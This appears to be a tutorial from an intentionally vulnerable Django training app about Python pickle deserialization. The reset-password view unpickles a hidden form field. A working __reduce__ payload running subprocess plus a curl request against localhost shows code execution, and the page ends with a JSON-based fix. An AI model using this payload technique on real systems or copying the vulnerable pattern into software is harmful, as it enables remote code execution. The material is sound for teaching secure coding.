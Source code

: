 **Description**:  Code Injection is an attack type in the application executes untrusted injected code.
These attacks are usually a result of improper input/output data validation.
 In this case we will explore Python's pickle library which "is not secure against erroneous or maliciously constructed data."

**Why**: Typically object serialization is used as a way to quickly compress an object into a byte stream.
This is useful for easily storing objects or even transferring objects efficiently through different parts of a program.

Let's look at the code.

We begin by allowing the functionality to reset a password. A user then gets an "email" which contains a link that takes the user to a password reset form.

**/template/password_reset/reset.html**
```html
 <form id = "resetForm" method="post" action="/password_resets/" > {% csrf_token %}

            <input type="hidden" value={{user}} name="user">

            <div class="form-group">
                <div class="cols-sm-10">
                    <div class="input-group">
                        <span class="input-group-addon"><i class="fa fa-lock fa-lg" aria-hidden="true"></i></span>
                        <input type="password" class="form-control" name="password" id="password"
                               placeholder="New Password" minlength="5" />
                    </div>
                </div>
            </div>
```

Note that our form has a hidden field called user. This user field is in fact a base64 encoded serialized user object created in the confirm_token method

**/views/password_resets/views.py**
```python
@require_http_methods(["GET"])
def confirm_token(request):
    if request.GET.get('token', '') != '' and is_valid_token(
            request.GET['token']):
        messages.success(request, 'Please create a new password.')
        id = request.GET['token'].split('-')[0]
        user = User.objects.filter(user_id=id).first()
        encoded = base64.b64encode(pickle.dumps(user))

        return render(request, 'password_reset/reset.html',
                      context={'user': encoded})
    else:
        try:
            messages.error(request, 'Bad token')
        except:
            pass

        return HttpResponseRedirect(reverse('app:login'))
```

Once submitted the form's data is sent to the reset_password method

**/views/password_resets/views.py**
```python
@require_http_methods(["POST"])
def reset_password(request):
    if request.POST.get('user', '') != '':
        encoded_user = request.POST['user']
        user = pickle.loads(base64.b64decode(encoded_user))

        user.password = request.POST['password']
        user.save()
        messages.success(request, 'Your password has been updated')
    else:
        try:
            messages.error(request, 'Password did not reset')
        except:
            pass

    return redirect('/login')

```

We decode and then pickle unserializes the byte stream into a python object. Well what if we changed the data that pickle recieves?

**The Attack:**

This attach is slightly complicated and requires a decent amount of setup. But it is important to note. We will essentially send a curl request to http://localhost:8000/password_resets/ which has "malicious" data that pickle incidentally executes. Let's begin by constructing this malicious data.

(python shell)
```
>>> import pickle
>>> import base64
>>> import subprocess
>>> class GenProcess(obj):
        def __reduce__(self):
            return (subprocess.Popen, (('ls',),))
>>> print base64.b64encode(pickle.dumps(GenProcess()))
Y3N1YnByb2Nlc3MKUG9wZW4KcDAKKChTJ2xzJwpwMQp0cDIKdHAzClJwNAou
```
We just serialized subprocesss method that runs the 'ls' command on our terminal.

Now we'll put together or curl request. It will be in the form

```
curl -H 'Cookie:   csrftoken=<csrf_token>' --data "user=<encoded_object>=&password=password1&confirm_password=password1&csrfmiddlewaretoken=<middleware_token>" http://localhost:8000/password_resets/
```

To get the crsf token fill out the password reset form and get the link. Then make this curl request

```
curl -i localhost:8000/password_resets/?token=2-e1ee0df341f342553a75351cf5e13b31
```
Scrolling to the top you will see the csrf_token. And right next to <form> tag you will see the csrfmiddlewaretoken value. Now for encoded_object parameter put in the output of the python shell. When you send the request you should see the ls command executed!

**The Solution:**

Never use serialization frameworks like pickle or marshal with user input! Prioritize other forms of serialization including json.

